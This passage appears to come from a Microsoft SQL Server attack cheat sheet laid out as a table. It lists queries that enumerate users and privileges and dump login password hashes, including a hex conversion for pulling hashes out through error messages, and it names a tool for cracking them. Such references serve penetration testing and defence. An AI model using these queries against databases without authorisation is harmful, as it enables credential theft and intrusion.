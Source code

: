 <br>
SELECT /*comment*/1

</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user_name();

<br>
SELECT system_user;

<br>
SELECT user;

<br>
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID

</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT name FROM master..syslogins</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT name, password FROM master..sysxlogins — priv, mssql 2000;

<br>
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.&nbsp; Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.

<br>
SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;

<br>
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005

</td>
</tr>
<tr>
<td>&nbsp;Password Cracker</td>
<td>MSSQL 2000 and 2005 Hashes are both SHA1-based.&nbsp;

<a href="https://labs.portcullis.co.uk/application/phrasen-drescher/">phrasen|drescher</a> can crack these.

</td>
</tr>
<tr>
<td>List Privileges</td>
<td>– current privs on a particular object in 2005, 2008

<br>
SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current database
